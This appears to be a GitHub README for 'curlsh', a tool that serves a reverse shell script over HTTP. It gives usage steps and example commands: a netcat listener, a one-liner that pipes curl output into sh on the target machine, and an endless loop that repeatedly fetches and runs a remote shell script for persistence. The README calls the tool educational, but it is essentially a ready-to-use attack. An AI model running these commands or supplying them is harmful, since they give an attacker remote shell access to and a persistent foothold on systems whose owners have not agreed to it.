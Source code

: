 # Simple curl reverse shell

This project implements a simple HTTP server that serves a reverse shell script to a target machine. The reverse shell script attempts to connect back to a specified IP address and port using various methods, including Python, Perl, Netcat, and `/bin/sh`.

## Features

- Supports multiple reverse shell methods:
  - Python (both Python 2 and Python 3)
  - Perl
  - Netcat
  - /bin/sh
- Graceful shutdown on `Ctrl+C`.
- Easily customizable IP and port configuration.

## Requirements

- A Unix-like operating system (Linux, macOS).
- `bash`, `nc` (Netcat), `python` or `python3`, and `perl` should be installed on the system running the script.

## Usage

1. Clone this repository:
   ```bash
   git clone https://github.com/laztname/curlsh.git
   cd reverse-shell-server
   ```

2. Make the script executable:
   ```
   chmod +x curlsh
   ```

3. Run the script with the target IP, target port, and listening port:
   ```
   ./curlsh <target_ip> <target_port> <listening_port>
   ```
- <target_ip>: The IP address of the target machine you want the reverse shell to connect to.
- <target_port>: The port on the target machine to connect to.
- <listening_port>: The port on your machine to listen for incoming requests.

## Example

On the listener (192.168.1.100) run the script
```bash
./curlsh 192.168.1.101 1337 8080
```

On your machine (192.168.1.101) listen the port
```bash
nc -lvp 1337
```

On target machine (192.168.1.102) call the reverse shell
```bash
curl -s 192.168.1.100:8080|sh
```
or run this for persistence on the target machine
```bash
while true; do curl https://reverse-shell.sh/yourip:1337 | sh; done
```


## Disclaimer

This tool is intended for educational purposes only. Ensure you have permission to test the security of any system before using this script. Unauthorized use may violate laws and regulations.
